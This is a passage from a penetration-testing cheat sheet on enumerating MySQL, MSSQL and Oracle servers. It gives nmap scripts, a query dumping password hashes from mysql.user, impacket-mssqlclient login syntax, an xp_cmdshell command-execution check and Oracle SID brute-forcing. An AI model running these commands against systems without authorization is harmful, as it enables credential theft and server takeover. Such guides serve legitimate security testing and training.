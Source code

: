     # Common SQL commands
    show databases;
    use <database_name>;
    show tables;
    select user, host, password from mysql.user; # Check for user hashes
    ```
  * **Key Information**: User credentials, application data, PII.

-----

### MSSQL (Port: 1433)

  * **Goal**: Find weak credentials and leverage database features for command execution.
  * **Automated Enumeration (Nmap)**
    ```shell
    nmap -p 1433 --script ms-sql-info,ms-sql-enum,ms-sql-xp-cmdshell <ip> -sV
    ```
  * **Manual Enumeration**
    ```shell
    # Connect with impacket's mssqlclient (handles Windows auth)
    impacket-mssqlclient <domain>/<username>:<password>@<ip> -windows-auth

    # Check if xp_cmdshell is enabled for command execution
    # This is a critical finding if successful
    xp_cmdshell 'whoami'
    ```
  * **Key Information**: Database contents, ability to execute OS commands on the server.

-----

### Oracle (Port: 1521)

  * **Goal**: Find default SIDs and credentials to access databases.
  * **Automated Enumeration (Nmap)**
    ```shell
    nmap -p 1521 --script oracle-sid-brute,oracle-tns-version <ip>
    ```
  * **Tool-Based Enumeration**
    ```shell
    # ODAT is the go-to tool for comprehensive Oracle testing
    ./odat.py all -s <ip>
    ```
  * **Key Information**: SIDs, user credentials, database contents.
